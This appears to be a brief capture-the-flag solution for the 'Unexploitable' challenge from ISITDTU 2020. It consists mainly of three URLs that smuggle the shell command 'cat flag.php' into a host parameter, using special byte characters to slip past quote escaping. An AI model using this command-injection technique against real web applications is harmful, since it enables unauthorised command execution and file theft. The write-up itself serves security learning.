 Solution for Unexploitable (ISITDTU 2020)

Just use special character to escapse quote

http://13.68.153.110/unexploitable/?host=8.8.8.8%82;%20cat%20flag.php;%20%82
http://13.68.153.110/unexploitable/?host=8.8.8.8%91;%20cat%20flag.php;%20%91
http://13.68.153.110/unexploitable/?host=8.8.8.8%92;%20cat%20flag.php;%20%92



![image](./show.png)